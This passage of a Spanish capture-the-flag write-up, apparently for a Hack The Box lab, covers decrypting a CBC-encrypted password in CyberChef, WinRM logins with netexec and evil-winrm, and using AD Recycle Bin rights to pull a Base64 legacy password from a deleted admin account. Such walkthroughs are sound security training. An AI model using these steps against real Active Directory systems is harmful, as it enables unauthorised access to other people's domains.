<figure><figcaption></figcaption></figure>

### Reverse engineering the CBC cipher - Obtaining clear text passwords (CyberChef)

Procederemos a realizar ingeniería inversa al cifrado CBC, para ello deberemos de tener los siguientes 3 datos

* KEY
* IV
* Password

<figure><figcaption></figcaption></figure>

Ingresaremos a **CyberChef** y lo descodificaremos y ontendremos la contraseña en texto plano.

<figure><figcaption></figcaption></figure>


## Privilege Escalation

Procederemos de conectarnos conel usuario "Arksvc" con las nuevas credencials al WinRM.

```bash
netexec winrm 10.10.10.182 -u arksvc -p 'w3lc0meFr31nd'

evil-winrm -i 10.10.10.182 -u arksvc -p 'w3lc0meFr31nd'
```

<figure><figcaption></figcaption></figure>

Revisando los grupos a los que pertenece el usuario, nos fijamos que forma parte del grupo de "AD Recycle Bin", lo que nos permitirá encontrar objectos que han sido borrados.

```bash
whoami /all
```

<figure><figcaption></figcaption></figure>

### Abusing AD Recycle Bin Group - Active Directory Object Recovery (Get-ADObject)

Debido que formamos parte de este grupo, nuestro objetivo será de recuperar información sobre el usuario "TempAdmin" que según descubrimos en el archivo .html cuando enumeramos el SMB; indicaba que este usuario disponía de las mismas credenciales que utiliza el usuario Administrator, por lo tanto, en caso de tener la contraseña de este usuario podríamos llegar a probar si aún son válidas para el usuario Administrator.

Procederemos a buscar objetos que sean usuarios que hayan sido borrados. Comprobamos que nos aparece el usaurio borrado "TempAdmin", procederemos a listar ls propiedades.


```powershell
Get-ADObject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects

Get-ADObject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```


<figure><figcaption></figcaption></figure>

Comprobamos que en un campo aparece "cascadeLegacyPwd" con lo que parece ser una contraseña encodeada nuevamente en Base64.

<figure><figcaption></figcaption></figure>

Procederemos a desencodear y nos aparece una contraseña en texto plano, validaremos con **netexec** de que las credenciales son válidas para el usuaro Administrator, nos conectarmos haciendo uso de **evil-winrm** y comprobaremos la flag de **root.txt**.


```bash
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d; echo

netexec winrm 10.10.10.182 -u Administrator -p 'baCT3r1aN00dles'

evil-winrm -i 10.10.10.182 -u Administrator -p 'baCT3r1aN00dles'
```


<figure><figcaption></figcaption></figure>
